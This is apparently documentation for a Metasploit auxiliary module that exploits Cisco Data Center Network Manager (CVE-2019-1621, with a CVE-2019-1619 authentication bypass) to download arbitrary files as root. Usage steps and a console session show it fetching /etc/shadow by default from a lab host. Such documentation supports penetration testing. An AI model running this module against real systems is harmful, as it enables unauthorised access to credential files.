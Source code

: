 ## Vulnerable Application

Cisco Data Center Network Manager exposes a servlet to download files on `/fm/downloadServlet`.
An authenticated user can abuse this servlet to download arbitrary files as root by specifying
the full path of the file (aka CVE-2019-1621).

This module was tested on the DCNM Linux virtual appliance 10.4(2), 11.0(1) and 11.1(1), and should
work on a few versions below 10.4(2). Only version 11.0(1) requires authentication to exploit
(see References to understand why), on the other versions it abuses CVE-2019-1619 to bypass authentication.

## Verification Steps

1. Do: ```use auxiliary/admin/networking/cisco_dcnm_download```
2. Do: ```set rhosts [ip]```
3. Do: ```run```

## Options

## Scenarios

Setup RHOST, pick the file to download (FILENAME, default is /etc/shadow) and enjoy!

```
msf5 exploit > use auxiliary/admin/networking/cisco_dcnm_download

msf5 auxiliary(admin/networking/cisco_dcnm_download) > set rhost 10.75.1.40
rhost => 10.75.1.40
msf5 auxiliary(admin/networking/cisco_dcnm_download) > run

[+] 10.75.1.40:443 - Detected DCNM 10.4(2)
[*] 10.75.1.40:443 - No authentication required, ready to exploit!
[+] 10.75.1.40:443 - Got sysTime value 1567081446000
[+] 10.75.1.40:443 - Successfully authenticated our JSESSIONID cookie
[+] File saved in: /home/john/.msf4/loot/20190829122407_default_10.75.1.40_ciscoDCNM.http_855907.bin
[*] Auxiliary module execution completed
```
